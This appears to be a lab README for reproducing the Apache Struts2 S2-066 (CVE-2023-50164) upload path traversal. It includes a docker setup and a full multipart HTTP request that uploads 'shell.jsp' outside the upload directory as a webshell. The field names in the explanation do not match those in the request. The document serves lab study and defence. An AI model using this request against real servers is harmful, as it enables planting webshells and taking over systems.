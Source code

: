 # Struts2 S2-066 Upload Path Traversal (CVE-2023-50164)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Struts2 is a popular open-source web application framework for developing Java EE web applications. It uses and extends the Java Servlet API to encourage developers to adopt a model–view–controller (MVC) architecture. The framework provides developers with a rich set of tags and utilities to create enterprise-ready web applications that are easy to maintain and extend.

Apache Struts2 S2-066 is a path traversal vulnerability that exists in the file upload functionality. The vulnerability allows attackers to upload files outside the intended upload directory by manipulating the form field name case.

In Struts2's file upload processing, the framework normally only retains the basename of uploaded files to prevent path traversal. However, due to a logic flaw in the processing, attackers can bypass this protection by:

1. Using a form field with an uppercase first letter (e.g., "Upload" instead of "upload")
2. Providing a separate form field with the desired path traversal filename

This allows the unprocessed filename to override the basename protection, resulting in successful path traversal.

References:

- <https://cwiki.apache.org/confluence/display/WW/s2-066>
- <https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/>

## Environment Setup

Execute the following command to start a web server written in Struts2 2.5.32:

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080` to access the application, which is a simple file upload page.

## Vulnerability Reproduce

First, try to upload a JSP script to the normal upload directory:

![Normal Upload](1.png)

Although the file is uploaded successfully, the JSP script cannot be executed in the upload directory due to server configuration:

![Execution Failed](2.png)

Exploit the S2-066 vulnerability to upload the file outside the `upload/` directory using the following request:

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 331

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="File"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

Note the key elements in the exploit:

- The form field name is "Upload" (first letter uppercase)
- A separate "uploadFileName" field contains the path traversal "../shell.jsp"

![Successful Upload](3.png)

The JSP file is now uploaded outside the restricted upload directory and can be executed:

![Webshell Execution](4.png)

You can now access the webshell at `http://your-ip:8080/shell.jsp`.
